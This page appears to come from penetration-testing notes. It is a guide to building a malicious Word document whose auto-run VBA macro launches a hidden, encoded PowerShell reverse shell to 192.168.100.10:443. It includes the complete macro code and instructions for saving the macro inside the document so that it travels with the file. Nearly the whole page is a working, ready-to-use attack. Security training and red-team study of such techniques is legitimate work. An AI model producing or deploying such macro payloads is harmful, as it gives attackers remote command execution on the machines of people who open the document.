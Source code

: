 # Client Side Attacks - .doc Macros


Problem:
We need to make a .doc document with a macro that creates a reverse shell.

To do this, first use [powershell-UTF16LE.py](../../../payloads-n-scripts/reverse-shells/powershell-UTF16LE.py) to generate a an encoded powershell reverse shell.
Now, use [string-shortener.py](./string-shortener.py) to split the string into multiple assignments (due to a funky limitation in VBA).

Now, insert the result into the following:


```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    
    Dim Str As String
    
    Str = Str + "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgA"
    Str = Str + "D0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0"
    Str = Str + "ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAa"
    Str = Str + "QBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMAAwAC4AMQA"
    Str = Str + "wACIALAAgADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgA"
    Str = Str + "CQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACk"
    Str = Str + "AOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAM"
    Str = Str + "AAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQA"
    Str = Str + "oACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkA"
    Str = Str + "CgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4"
    Str = Str + "ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZ"
    Str = Str + "ABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAA"
    Str = Str + "tAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlA"
    Str = Str + "HgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEc"
    Str = Str + "AZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAI"
    Str = Str + "AAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQB"
    Str = Str + "lAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0A"
    Str = Str + "C0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGs"
    Str = Str + "AMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAU"
    Str = Str + "wAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAA"
    Str = Str + "iAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbA"
    Str = Str + "HQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEM"
    Str = Str + "ASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAY"
    Str = Str + "gBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdAB"
    Str = Str + "lACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkA"
    Str = Str + "GIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGE"
    Str = Str + "AbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQAL"
    Str = Str + "gBDAGwAbwBzAGUAKAApAA=="


    CreateObject("Wscript.Shell").Run Str
End Sub
```

Now it is *IMPORTANT* to save the macro _on the document_ rather than in the projects of the MS Office on the machine.
So when going into MS Word, choose --> View --> Macros --> choose your document in the dropdown --> choose "create".
